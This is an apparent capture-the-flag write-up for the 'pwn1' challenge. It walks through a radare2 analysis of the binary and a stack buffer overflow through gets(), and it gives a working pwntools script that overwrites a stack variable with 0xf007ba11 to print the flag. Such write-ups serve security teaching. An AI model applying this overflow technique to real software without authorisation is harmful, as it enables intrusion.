



# pwn1 #

This challenge did not give us any clue, this was the description of the challenge:



We downloaded the binary named pwn1.

```
sha256sum pwn1
d7649dfe173eedd569664d41a400082187a2d21287e65a8016d564c4f8c648fe  pwn1
```
## Running the binary ##
Running the binary revealed that there was some kind of check going on ...
```
./pwn1
This is a super secret program
Noone is allowed through except for those who know the secret!
What is my secret?
foo
That is not the secret word!
```
## Binary analysis ##
We fired up our trusty radare2 to analyze the binary ...
```
r2 pwn1copy
[0x08048450]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze len bytes of instructions for references (aar)
[x] Analyze function calls (aac)
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Constructing a function name for fcn.* and sym.func.* functions (aan)
```
We listed the functions with the afl command and something poped out inmediatly:



There was an intersting function called sym.print_flag (hopefully that would give us our flag),
after inspecting the execution flow we noticed that there was a comparison between an address in
memory and the constant 0xf007ba11.



We knew that our buffer input is stored in ebp-0x23 as shown in the instructions below:

```
0x08048611 8d45dd         lea eax, dword [local_23h]
0x08048614 50             push eax
0x08048615 e8b6fdffff     call sym.imp.gets;[gc]
```

To overwrite the address at ebp-0xc we needed 23 bytes (gets was not limiting our input length),
and after that we had to add the value 0xf007ba11. We used pwntools to generate a quick script
to connect to the challenge to get our flag.

```python
cat sc.py
from pwn import *

c = remote('pwn.ctf.tamu.edu', 4321)
print c.recvline()
print c.recvline()
print c.recvline()
string = '\x41' * 23 + '\x11\xba\x07\xf0'
print c.sendline(string)
print c.recvline()
print c.recvline()
```
## Getting the flag ##
After running our script, we were able to get the flag ...

```
python exp.py
[+] Opening connection to pwn.ctf.tamu.edu on port 4321: Done
This is a super secret program

Noone is allowed through except for those who know the secret!

What is my secret?

None
How did you figure out my secret?!

gigem{H0W_H4RD_1S_TH4T?}

[*] Closed connection to pwn.ctf.tamu.edu port 4321
```
